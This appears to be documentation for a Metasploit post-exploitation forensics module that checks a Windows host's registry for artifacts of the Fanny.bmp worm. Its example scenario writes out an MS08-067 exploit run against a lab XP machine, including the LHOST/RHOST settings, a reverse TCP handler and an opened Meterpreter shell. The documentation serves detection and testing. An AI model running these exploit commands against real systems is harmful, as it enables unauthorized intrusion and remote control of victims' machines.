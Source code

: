 ## Vulnerable Application
Fanny or DWE for short. (DWE = DementiaWheel)

Detection module based on the `post/windows/gather/forensics/duqu_check` module. Fanny is a worm that infects windows
machines, via USB (not through Autorun, or at least not only).

In fact, it used exploits later found in StuxNet. It creates creates some Registry artifacts.

This module is intended to detect those artifacts.

#### Supported Environments:
- Windows x86

#### Supported SessionTypes:
- Meterpreter
- Shell

#### Supported OS's:
- Windows XP Pro (SP3)

## Verification Steps

- Start msfconsole
- Open a session on a Windows host (using `exploit/windows/smb/ms08_067_netapi` for example)
- Use `post/windows/gather/forensics/fanny_bmp_check`
- Set the `SESSION` datastore option to the target session
- Run the module

## Options

## Scenarios

### Windows XP SP3
```
msf exploit(windows/smb/ms08_067_netapi) > use exploit/windows/smb/ms08_067_netapi
msf exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.122.1
msf exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.122.160
msf exploit(windows/smb/ms08_067_netapi) > set LPORT 4444
msf exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 192.168.122.1:4444 
[*] 192.168.122.160:445 - Automatically detecting the target...
[*] 192.168.122.160:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 192.168.122.160:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.122.160:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 192.168.122.160
[*] Meterpreter session 4 opened (192.168.122.1:4444 -> 192.168.122.160:1043) at 2020-12-22 16:55:02 +0100

meterpreter > run post/windows/gather/forensics/fanny_bmp_check
 
[*] Searching the registry for Fanny.bmp artifacts.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\Driver found in registry.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter2 found in registry.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter3 found in registry.
[+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter8 found in registry.
[*] WORKSTATION1: 4 result(s) found in registry.
meterpreter >
```
